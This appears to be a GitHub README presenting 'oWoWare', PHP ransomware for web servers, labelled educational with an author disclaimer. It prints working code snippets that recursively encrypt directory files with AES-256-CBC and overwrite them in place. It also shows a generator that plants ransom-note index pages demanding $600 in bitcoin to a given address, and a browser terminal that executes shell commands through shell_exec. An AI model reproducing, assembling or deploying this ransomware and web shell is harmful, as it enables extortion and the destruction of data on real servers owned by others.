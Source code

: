 **oWoWare** is ransomware focused on web servers, developed in PHP. It provides a secure interface for tool management and terminal command execution. With file encryption and decryption functionalities using `AES-256-CBC (Cipher Block Chaining with a 256-bit key)`, as well as an integrated terminal, **oWoWare** is designed for technical testing and raising awareness about protection against ransomware attacks.

#### Important Note

> oWoWare ransomware developed for educational, simulation, and attack demonstration purposes.<br>
> **The author** is not **responsible** for any misuse of it.
---

## Video POC
[![oWoWare Ransomware Simulation](https://img.youtube.com/vi/7Msibaqlpwc/0.jpg)](https://www.youtube.com/watch?v=7Msibaqlpwc)


## Description

### 1. **File Encryption:**
   - **Encryption Type Used**: 
     - **AES-256-CBC** (Cipher Block Chaining with a 256-bit key) is used, a symmetric encryption algorithm. 
     - The encryption key must be at least 32 characters long to ensure security in this mode.
     - The code also generates an **IV (Initialization Vector)** using `openssl_random_pseudo_bytes()`, which is concatenated to the encrypted content and stored alongside the file.

```php
$iv_length = openssl_cipher_iv_length('AES-256-CBC');
$iv = openssl_random_pseudo_bytes($iv_length);

$encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
$final_content = $iv . $encrypted_contents;
file_put_contents($file_path, $final_content);
```

   - **Encryption Process**:
     - Each file in the specified directory is encrypted, skipping files named `index.html` or `index.php`.
     - The encrypted content includes the ***IV*** and the encrypted content concatenated. This encrypted content replaces the original file.

```php
function encrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    // Iterate over files and subdirectories
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            // Encrypt the file content
            $iv = openssl_random_pseudo_bytes($iv_length);
            $encrypted_contents = openssl_encrypt($file_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            $final_content = $iv . $encrypted_contents;
            file_put_contents($file_path, $final_content);
        }
    }
}
```
     
   - **Error Handling**:
     - The code handles errors in file reading, IV generation, encryption, and writing the encrypted files.
     - Errors are stored in the `$error_files` array, and successfully processed files are listed in `$processed_files`.


### 2. **File Decryption:**
   - **Decryption Process**:
     - The ***IV*** is extracted from the encrypted content and used to decrypt the files using the same symmetric key `(AES-256-CBC)`.
     - The decrypted files are rewritten with the original content, restoring the file.
   
   - **Error Handling**:
     - Errors in reading, decrypting, and writing files are handled similarly to the encryption process.

```php
     function decrypt_directory($target_dir, $key, &$processed_files, &$error_files) {
    foreach ($iterator as $item) {
        if ($item->isFile()) {
            $iv = substr($file_contents, 0, $iv_length);
            $encrypted_contents = substr($file_contents, $iv_length);
            $decrypted_contents = openssl_decrypt($encrypted_contents, 'AES-256-CBC', $key, OPENSSL_RAW_DATA, $iv);
            file_put_contents($file_path, $decrypted_contents);
        }
    }
}
```


### 3. **Login and Security Management:**
   - **Authentication**:
     - The login system compares a predefined username (`admin`) and a password stored as a **bcrypt hash**.
     - The stored hash uses bcrypt with a work factor of 15, ensuring brute force attempts are slow.
     - It protects against brute force attacks by limiting login attempts to 5 failed attempts before locking the user out for 15 minutes.
   
   - **CSRF Tokens (Cross-Site Request Forgery)**:
     - To protect against CSRF attacks, a CSRF token is generated and validated on each POST request.
   
   - **Session ID Regeneration**:
     - Once the user successfully authenticates, a new session is generated with `session_regenerate_id(true)` to prevent session fixation attacks.

```php
     define('USERNAME', 'admin');
define('PASSWORD_HASH', '$2a$15$xEbegd2Cf26u2/2dw4LLXu0uJbqifWGFWXXh0gBkTDoImJOCJ5Ogu');

if ($username === USERNAME && password_verify($password, PASSWORD_HASH)) {
    session_regenerate_id(true);
    $_SESSION['authenticated'] = true;
    $_SESSION['login_attempts'] = 0;
    unset($_SESSION['locked_until']);
}
```

### 4. **File Encryption by Directory**:
   - The user can specify a directory to encrypt or decrypt files. The directory path is validated before proceeding.
   - The code uses `RecursiveDirectoryIterator` and `RecursiveIteratorIterator` to iterate through the files and directories within the target directory.
   
### 5. **Files Created When Encrypting the Directory**:
   - **`index.html` or `index.php` Files**:
     - An `index.php` or `index.html` file is generated or updated in each encrypted directory with a message indicating that the files have been encrypted.
     - The file content includes a message simulating a ransomware attack, demanding $600 in Bitcoin to a specific address.

```php
function create_index_file($dir_path, &$error_files) {
    $content = "
<pre><center><b>
         __      ____      __     
        / /     / __ \     \ \    
       / / ___ | |  | | ___ \ \   
      > / / _ \| |  | |/ _ \ > \  
     / ^ ( (_) )\ \/ /( (_) ) ^ \ 
    /_/ \_\___(___||___)___/_/ \_\
                     oWoWare V.1.0
<h2>Ooops, your files have been encrypted!</h2>
Send $600 worth of bitcoin to this address:
bc1qar0srrr7xfkvy5l643lydnw9re59gtzzwf8ch7
</pre></center></b>";
    file_put_contents($index_file, $content);
}
```

### 6. **Integrated Terminal Functionality**:
   - The system has an integrated terminal that allows commands to be executed from the browser.
   - Allowed commands are restricted by a whitelist (`$allowed_commands`), which includes common system administration commands like `ls`, `cd`, `whoami`, `ping`, among others.
   - The results of the executed commands are displayed in real-time in the user interface. 
   - Each executed command is logged in a log file in the `logs/commands.log` directory.

```php
$allowed_commands = ['ls', 'pwd', 'cat', 'cp', 'mv', 'rm', 'mkdir', 'chmod', 'chown', 'ping', 'top', 'df', 'uname', ...];

if (in_array($base_command, $allowed_commands)) {
    $safe_command = escapeshellcmd($command);
    $output = shell_exec($safe_command . ' 2>&1');
}
```

### 7. **Password Management for Encrypting/Decrypting**:
   - The user must provide an encryption key (minimum of 32 characters) to encrypt or decrypt the files.
   - If the key is less than 32 characters, an error is shown indicating that the key is insufficient.
```php
if (strlen($key) < 32) {
    $encryption_error = "The key must be at least 32 characters for AES-256.";
}
```
---

## ⚠️ Important Note

> oWoWare ransomware developed for educational, simulation, and attack demonstration purposes.<br>
> **The author** is not **responsible** for any misuse of it.
---
